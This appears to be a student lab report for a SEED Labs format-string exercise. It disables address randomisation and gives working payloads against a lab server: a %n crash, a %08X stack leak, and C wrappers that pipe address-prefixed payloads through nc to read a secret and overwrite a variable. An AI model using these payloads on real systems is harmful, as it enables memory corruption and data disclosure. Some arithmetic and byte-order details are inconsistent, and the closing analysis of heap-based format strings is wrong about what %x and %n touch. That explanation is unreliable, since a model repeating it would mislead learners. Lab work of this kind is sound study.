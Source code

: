 # Question 1

## Setup
To start, we disabled address randomization, as the program's address layout and order is crucial for this attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

The server's program.c was compiled with the **-z execstack** flag to allow code execution within the stack.

We then opened a terminal with the server using Docker from Seed Labs:
```bash
docker-compose build
docker-compose up
```

And another terminal to use as a client to communicate with the servers. This setup allowed us to observe messages exchanged between both sides. We then send the string asked to the server:

```bash
$ echo 'hello' | nc 10.9.0.5 9090
```
 ![hello](/docs/images/hello.png)

The server returned necessary information for the following tasks:
- Input buffer address
- Secret message address
- Addresses of a target variable
- Frame pointer for the myprintf function


## Task 1
To crash the server, we sent the following input:

```bash
$ echo '%n' | nc 10.9.0.5 9090
```
 ![crash](/docs/images/crash.png)

The format string attempts to write with %n to a memory address outside the allowed address space of the process caused a crash, resulting in a segmentation fault. The absence of the "Returned properly" message confirmed the server had crashed.


## Task 2

### Task 2.A	
We used "DJLD", represented in hexadecimal as "444A4C44", to print the first 4 bytes of the input from the format string. 
Our initial approach was to input "DJLD" concatenated with multiple "%08x" format specifiers.

```bash
echo "DJLD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
 ```

![letters](/docs/images/letters.png)

The final "444C4A44" is the address of our input "DJLD". Observing that each address has 8 characters (32-bit addresses), we determined there are 63 stack addresses between the format string and the buffer. Thus, a string with exactly 64 "%x" is needed to print the initial 4 bytes of the input.

### Task 2.B
To print a string from the heap at address 0x080b4008, we encoded the address as "\x08\x0b\x40\x08". With 63 "%08x" and a final "%s", the format string reads from this address and returns the hidden value.

We created a func.c file and compiled it:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

```bash
gcc -o func fun.c 
```

And then run it:

```bash
./func
```
 
 ![secret](/docs/images/secret.png)

The server confirmed the message at this address is  "A secret message."


## Task 3

### Task 3.A

Here, we needed to modify the value of the target variable. Initially, it held 0x11223344, and its address was 0x080e5068.
Using %n, like we used in task 1, we could write the count of characters printed so far to the specified address. This approach involved a command similar to Task 2.B, we just wrote to the address instead of reading from it.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

 ![change](/docs/images/change.png)

The target value changed.


### Task 3.B

This time, we needed to set the target variable to a specific value: 0x5000 (20480 in decimal). Knowing %n would write the character count, we crafted an input with 20408 characters, and used %.NX, with N = 19980 (computed by subtracting 4 and the 63 * 8 from 20408), to achieve the required count.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}

```

 ![5000](/docs/images/5000.png)

The target variable was now 0x00005000.


# Question 2:

CWE-134 format string vulnerabilities occur when user-controlled data is unsafely passed to formatting functions, allowing attackers to manipulate memory via format specifiers.
When the format string is on the stack:
Reading stack data is easier using %x or %s, as stack addresses and data are accessible.
Writing to the stack with %n allows attackers to overwrite critical stack values, like local variables or return addresses.
If the format string is on the heap:
Reading and writing to the stack becomes difficult, as %x and %n would target the heap instead.
Attacks relying on stack manipulation, like reading stack addresses or overwriting variables, would fail or be less effective.

- Task 2.A: The %x attack, which reveals stack addresses, would fail because it depends on accessing stack memory. With the format string on the heap, only heap addresses would be revealed.
- Task 2.B: While this attack relies on reading from a specific heap address, the format string's location in the heap would make it harder to control and predict the memory layout, making the attack less reliable.
- Task 3.A: Modifying stack variables using %n would also not work since %n would write to heap memory, not affecting the stack variables.
- Task 3.B: Writing a specific value to the stack with %n would fail because %n would target the heap instead of the intended stack address.


